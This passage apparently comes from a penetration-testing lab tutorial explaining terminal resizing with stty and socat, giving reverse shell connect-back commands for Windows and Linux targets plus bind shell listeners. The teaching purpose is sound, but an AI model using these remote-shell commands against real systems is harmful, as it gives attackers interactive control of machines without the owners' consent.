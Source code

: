 ```
stty cols <number>
```

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus  allowing programs such as text editors which rely on such information  being accurate to correctly open.

#  Socat                            

Socat is similar to netcat in some ways, but fundamentally different  in many others. The easiest way to think about socat is as a connector  between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a  listening port and a file, or indeed, two listening ports. All socat  does is provide a link between two points -- much like the portal gun  from the Portal games!

Once again, let's start with reverse shells.

*Reverse Shells*

As mentioned previously, the syntax for socat gets a lot harder than that  of netcat. Here's the syntax for a basic reverse shell listener in  socat:

```
socat TCP-L:<port> -
```

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`.

On Windows we would use this command to connect back:

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

*Bind Shells*

On a Linux target we would use the following command:

```
socat TCP-L:<PORT> EXEC:"bash -li"
```

On a Windows target we would use this command for our listener:

```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
